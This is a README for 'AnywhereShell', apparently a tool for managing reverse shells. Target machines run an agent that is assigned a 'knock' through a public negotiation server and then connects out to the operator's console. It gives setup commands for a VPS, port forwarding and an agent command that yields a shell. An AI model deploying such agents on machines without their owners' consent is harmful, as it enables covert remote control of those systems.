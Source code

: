 AnywhereShell
=============

Easily manage your reverse-shells by assigning "knocks" to each.

Protocol
=============
The negotiation server is used to register different "knocks" to agents. These knocks are used to identify individual agents. The agent is the assigned a knock that is registered to the negotiation server. When the management console is ready to connect to the agent it tells the negotiation server to set the knock status for that agent from "wait" to "connect." The agent then connects outbound to the management console.


                    > Negotiation-Server <
                   /                      \
                  /                        \
                agent -------------> management-console

Usage
=============
Currently only works on Linux!


Start the negotiation server on an external VPS. It must be public facing!

```
python negotiate.py
```
Make sure that there is a knock directory in the same directory as negotiate.py. This is where the knocks get stored.

```
mkdir knocks
```

On your the computer you want to manage your agents from install xterminal and Java runtime environment 7 or above.

On the same computer move manager.jar and .knockrc to the same directory.
```
chmod +x manager.jar
*double-click to run* or java -jar manager.jar
```
Put the scripts somewhere on your file-system. In the manager config tab browse for the script directory, and click apply.

On your router port-forward 9002 through to the host that has your management console running. This is neccessary so agents can connect back to you.


In the manager create knock "test."

On any computer you want to connect run the agent.
```
python agent.py -i $server_ip -k test
```

Simply click connect in the management-console using your knock: "test".

You should have a shell!

Register and deploy as many knocks and agents as you want.
